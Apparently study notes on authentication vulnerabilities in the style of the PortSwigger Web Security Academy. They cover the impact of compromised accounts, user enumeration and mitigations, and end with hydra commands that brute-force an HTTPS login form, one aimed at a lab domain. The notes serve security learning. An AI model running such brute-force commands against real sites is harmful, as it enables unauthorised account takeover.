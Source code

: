 ## What is the impact of vulnerable authentication?
The impact of authentication vulnerabilities can be very severe. Once an attacker has either bypassed authentication or has brute-forced their way into another user's account, they have access to all the data and functionality that the compromised account has. If they are able to compromise a high-privileged account, such as a system administrator, they could take full control over the entire application and potentially gain access to internal infrastructure.

Even compromising a low-privileged account might still grant an attacker access to data that they otherwise shouldn't have, such as commercially sensitive business information. Even if the account does not have access to any sensitive data, it might still allow the attacker to access additional pages, which provide a further attack surface. Often, certain high-severity attacks will not be possible from publicly accessible pages, but they may be possible from an internal page.

## Vulnerabilities in authentication mechanisms
A website's authentication system usually consists of several distinct mechanisms where vulnerabilities may occur. Some vulnerabilities are broadly applicable across all of these contexts, whereas others are more specific to the functionality provided.

We will look more closely at some of the most common vulnerabilities in the following areas:

- [Vulnerabilities in password-based login](https://portswigger.net/web-security/authentication/password-based)
- [Vulnerabilities in multi-factor authentication](https://portswigger.net/web-security/authentication/multi-factor)
- [Vulnerabilities in other authentication mechanisms](https://portswigger.net/web-security/authentication/other-mechanisms)

Note that several of the labs require you to enumerate usernames and brute-force passwords. To help you with this process, we've provided a shortlist of candidate [usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames) and [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) that you should use to solve the labs.

## Password based vulnerabilities
### Brute forcing

Use a tool like [Hydra](https://github.com/vanhauser-thc/thc-hydra) or [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using) to brute force a login form.  The tool will try a list of common usernames and passwords against the login form submission.

The following can all be used to perform user enumeration and hone the attack:

1. Error messages returned (Invalid username vs. Incorrect password)
1. Response times
1. Response status codes

This attack can be mitigated by IP based rate limiting, request throttling, account locking, MFA and CAPTCHAs.

```sh
# Brute force an https form POST submission
# You can get the $LOGIN_PATH and $FORM_SUBMIT_PAYLOAD using Burp Proxy or your browser's dev tools
hydra \
    -L "$FILE_WITH_USERNAMES" \
    -P "$FILE_WITH_PASSWORDS" \
    "$URL_OR_IP" \
    https-post-form "$LOGIN_PATH:$FORM_SUBMIT_PAYLOAD:$FAILURE_MESSAGE"

# Username and password list
hydra \
    -L usernames.list \
    -P passwords.list \
    web-security-academy.net \
    https-post-form "/login:username=^USER^&password=^PASS^:Invalid username"

# Known user and password list
```